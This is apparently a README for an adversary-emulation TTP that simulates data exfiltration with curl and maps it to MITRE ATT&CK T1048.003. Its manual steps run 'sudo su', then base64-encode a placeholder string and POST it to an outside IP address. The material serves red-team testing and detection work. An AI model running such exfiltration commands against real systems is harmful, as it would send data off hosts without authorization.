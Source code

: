 # Exfiltrate Data

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the exfiltration of data via a specified endpoint using curl.

## Arguments

- **exfil_endpoint**: The endpoint to which the data will be exfiltrated.

## Pre-requisites

1. The executor must have access to the internet and the ability to make HTTP requests.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//exfiltration/exfiltration-curl.yaml \
  --arg exfil_endpoint=https://httpbin.org/post
```

## Steps

1. **exfiltrate-data**: This step exfiltrates the data to the specified endpoint.

## Manual Reproduction Steps

```
### Attacker Configuration
docker run -e LOG_HTTP_BODY=STDOUT -t --rm -p 8080:8080 jmalloc/echo-server

### Target Configuration

# Escalate privileges to root
# (optional - depends on the goal(s) of your simulation)
sudo su

EXFIL_ENDPOINT="http://52.37.30.218:8080/data"
echo "I am data - why am I going where I am going?!" \
  | base64 -w 0 \
  | curl -X POST "${EXFIL_ENDPOINT}" -d @-
```

## MITRE ATT&CK Mapping

- **Tactics**:
    - TA0010 Exfiltration
- **Techniques**:
    - T1048 Exfiltration Over Alternative Protocol
- **Subtechniques**:
    - T1048.003 Exfiltration Over Alternative Protocol Exfiltration Over Unencrypted Non-C2 Protocol
